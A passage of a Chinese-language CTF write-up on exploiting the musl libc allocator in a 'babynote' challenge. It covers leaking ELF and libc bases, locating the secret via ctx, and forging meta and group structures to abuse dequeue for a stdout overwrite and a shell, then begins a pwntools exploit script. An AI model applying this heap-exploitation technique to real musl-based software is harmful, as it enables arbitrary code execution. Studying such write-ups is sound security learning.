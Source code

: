 有些堆是在程序段附近的，有些堆是在libc段附近的，这样我们就可以直接得到elf基址和libc基址。这就方便很多了。

## 3.漏洞实施前提

musl一般要进行漏洞实施一定要知道secret是什么

secret地址我们可以通过ctx（libc+一定的值，可以在libc.so malloc里发现ctx.seq然后减0x390即可）

然后重复上面的利用方式，这一回就不用那么复杂，直接写chunk的note地址为ctx地址即可

## 4.getshell

一般是通过mmap一个大的内存（来达到地址空间对齐）

基本步骤如下：

1. 申请一个0x1200大小的note（mmap）

2. 再申请一个0x1200大小的note（这时候可以保证这个note能写入的地址段中一定有0x1000对齐的

3. 往里面写东西，伪造meta 和 group ，然后meta->pre=stdout-0x18,meta->next=fake_mem_addr ,然后写入，最后往被控制的chunk里写入这个note里写入你伪造的chunk的地址，然后free掉，就能利用dequeue机制在stout-0x10处写入fake_mem_addr（过掉检查）

4. 在构造一个0x1200大小的note（mmap），这时候是为了将这个chunk入队（queue）。

5.  这时候其实我们可以控制 0x1200的note，相当于任意地址写，我们在stdout-0x10处申请了一个chunk，写入shell信息，就能完成getshell 

## exp

    from pwn import *

    io = process('./babynote')	
    #libc = ELF('./libc.so')
    libc = ELF('/usr/local/musl/lib/libc.so')
    #io = process(["./libc.so",'./babynote'])
    #libc = ELF('./libc.so')

    context.log_level='debug'
    def add(name,name_size,note,note_size):
        io.sendlineafter("option: ",str(1))
        io.sendlineafter("name size: ",str(name_size))
        io.sendafter("name: ",name)
        io.sendlineafter("note size: ",str(note_size))
        io.sendafter("note content: ",note)

    def find(name,name_size):
        io.sendlineafter("option: ",str(2))
        io.sendlineafter("name size: ",str(name_size))
        io.sendafter("name: ",name)

    def delete(name,name_size):
        io.sendlineafter("option: ",str(3))
        io.sendlineafter("name size: ",str(name_size))
        io.sendafter("name: ",name) 

    def forget():
        io.sendlineafter("option: ",str(4))
